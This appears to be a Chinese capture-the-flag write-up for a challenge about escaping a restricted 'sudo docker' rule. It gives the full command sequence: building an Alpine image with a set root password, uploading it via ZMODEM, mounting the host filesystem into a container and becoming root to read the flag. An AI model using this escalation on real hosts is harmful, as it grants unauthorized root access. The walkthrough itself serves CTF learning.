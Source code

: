 > 提供的环境会自动登录低权限的 `user` 用户。登录后可以通过特定的 `sudo docker` 命令使用 Docker，通过 `sudo -l` 可以查看允许提权执行的命令。读取 `/flag`（注意其为软链接）获取 flag。提供的环境中有 `rz` 命令，可以使用 ZMODEM 接收文件。

ZModem真绷不住了，这东西之前是走电话线的，速度都以B/s计的，没想到又能在这看见它。

## No Enough Privilege

启动环境。在慢腾腾的OpenRC启动之后，查看我们可以使用的命令。

```
dockerv:~$ sudo -l
User user may run the following commands on dockerv:
    (root) NOPASSWD: /usr/bin/docker run --rm -u 1000\:1000 *, /usr/bin/docker
        image load, !/usr/bin/docker * -u0*, !/usr/bin/docker * -u?0*,
        !/usr/bin/docker * --user?0*, !/usr/bin/docker * -ur*, !/usr/bin/docker
        * -u?r*, !/usr/bin/docker * --user?r*
```

需要我们以容器内`1000:1000`用户启动。没限制privileged自然是极好的。考虑到ZModem的龟速上传速度，我们需要一个极其轻量化的docker镜像。这里使用alpine，下载之后不到4M。

```bash
docker pull alpine:latest
docker run -itd --name alpine alpine
docker exec -it alpine /bin/sh
addgroup -g 1000 user
adduser -s /bin/sh -G user user
passwd user
#输入user密码
passwd root
#输入root密码
exit
docker container stop alpine
docker commit alpine PwfulAlpine
docker save -o /path/to/PwfulAlpine.tar PwfulAlpine  #生成tar有8M
gzip -9 -k /path/to/PwfulAlpine.tar
```

然后，这边建议您使用 ***Arch Linux*** 进行ZModem文件上传。在Windows内由于未知原因，Xshell上传没速度。若您是Windows的忠实用户，官方writeup的说法是：

> 至于 Windows 用户，我也不知道咋上传。

在Arch内安装好`lrzsz`软件包后，在Konsole内使用`stty raw -echo; nc 202.38.93.141 10338; stty sane`连接第一小题。连接好后，

```bash
mkdir /tmp/abc   # Read-only  一生之敌
cd /tmp/abc
rz
```

即可启动文件传输。选择你打好的`PwfulAlpine.tar.gz`，上传完成后

```bash
gzip -d PwfulAlpine.tar.gz
cat PwfulAlpine.tar | sudo /usr/bin/docker image load
sudo docker run --rm -u 1000:1000 -it --ipc=host --device=/dev/vdb -v /:/out PwfulAlpine
su root
#输入root密码
cat /out/flag
```
